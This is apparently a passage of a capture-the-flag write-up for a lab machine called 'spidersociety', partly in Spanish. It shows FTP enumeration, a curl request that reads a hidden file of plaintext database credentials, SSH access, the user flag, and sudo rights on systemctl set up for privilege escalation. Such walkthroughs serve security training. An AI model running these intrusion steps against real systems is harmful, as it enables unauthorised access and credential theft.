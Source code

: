  ```bash
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 14 17:53 .
drwxr-xr-x    4 1002     1002         4096 Jun 02 07:53 ..
-r--------    1 33       33            170 Apr 14 17:53 .fuhfjkzbdsfuybefzmdbbzdcbhjzdbcukbdvbsdvuibdvnbdvenv
-rwxr-xr-x    1 0        0            5436 Apr 14 17:53 control-panel.php
-rwxr-xr-x    1 0        0            1389 Apr 14 17:53 fetch-credentials.php
-rwxr-xr-x    1 0        0            3752 Apr 14 17:53 index.php
-rwxr-xr-x    1 0        0             713 Apr 14 17:53 login.php
-rwxr-xr-x    1 0        0              88 Apr 14 17:53 logout.php
-rwxr-xr-x    1 0        0              51 Apr 14 17:53 users.php
226 Directory send OK.
```
- By making a GET request with curl, we were able to read the content and found plaintext database credentials.
```bash
> curl -s -X GET "http://192.168.107.214/libspider/.fuhfjkzbdsfuybefzmdbbzdcbhjzdbcukbdvbsdvuibdvnbdvenv"
```
![alt](/images/posts/spidersociety8.webp)
- Con las credenciales obtenidas nos intentamos conectar por SSH y accedemos a la maquina vicitma exitosamente
![alt](/images/posts/spidersociety9.webp)
## USER FLAG
- We read the first flag
```bash
spidey@spidersociety:~$ whoami && ifconfig && cat /home/spidey/local.txt
spidey
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.107.214  netmask 255.255.255.0  broadcast 192.168.107.255
        ether 00:50:56:ab:37:99  txqueuelen 1000  (Ethernet)
        RX packets 640040  bytes 315640613 (315.6 MB)
        RX errors 0  dropped 1534  overruns 0  frame 0
        TX packets 449400  bytes 169859437 (169.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3652  bytes 281573 (281.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3652  bytes 281573 (281.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

1c7eabccccda039ee3f886369a57300e
```
## 🚀 PRIVILEGE ESCALATION
- Listing sudoers privileges, we found that our user can execute the following commands as any user.
```bash
spidey@spidersociety:~$ sudo -l
Matching Defaults entries for spidey on spidersociety:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User spidey may run the following commands on spidersociety:
    (ALL) NOPASSWD: /bin/systemctl restart spiderbackup.service
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) !/bin/bash, !/bin/sh, !/bin/su, !/usr/bin/sudo
```